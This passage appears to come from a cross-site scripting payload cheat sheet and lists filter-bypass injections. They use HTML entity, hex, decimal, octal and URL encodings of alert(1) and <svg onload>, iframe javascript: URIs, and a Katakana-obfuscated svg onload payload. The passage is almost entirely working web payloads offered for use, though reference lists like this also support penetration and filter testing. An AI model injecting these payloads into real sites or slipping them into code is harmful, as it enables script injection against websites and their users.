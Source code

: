 ### Bypass using HTML encoding

HTML entities
```javascript
&apos;-alert(1)-&apos;
```

HTML hex without zeros
```javascript
&#x27-alert(1)-&#x27
```

HTML hex with zeros
```javascript
&#x00027-alert(1)-&#x00027
```

HTML dec without zeros
```javascript
&#39-alert(1)-&#39
```

HTML dec with zeros
```javascript
&#00039-alert(1)-&#00039
```

Example:
```javascript
cgonzalo"><a href="javascript:var a='&apos;-alert(1)-&apos;'">
```

Encoded: "<svg onload=alert(1)>"
	
```javascript
cgonzalo"><iframe src=javascript:'\x3c\x73\x76\x67\x20\x6f\x6e\x6c\x6f\x61\x64\x3d\x61\x6c\x65\x72\x74\x28\x31\x29\x3e' />

cgonzalo"><iframe src=javascript:'\74\163\166\147\40\157\156\154\157\141\144\75\141\154\145\162\164\50\61\51\76' />
```

```javascript
%26%2397;lert(1)

&#97;&#108;&#101;&#114;&#116;

></script><svg onload=%26%2397%3B%26%23108%3B%26%23101%3B%26%23114%3B%26%23116%3B(document.domain)>
```

### Bypass using Katana

Using the [Katakana](https://github.com/aemkei/katakana.js) library.

```javascript
cgonzalo"><svg/onload=javascript:([,ウ,,,,ア]=[]+{},[ネ,ホ,ヌ,セ,,ミ,ハ,ヘ,,,ナ]=[!!ウ]+!ウ+ウ.ウ)[ツ=ア+ウ+ナ+ヘ+ネ+ホ+ヌ+ア+ネ+ウ+ホ][ツ](ミ+ハ+セ+ホ+ネ+'(-~ウ)')()>
```
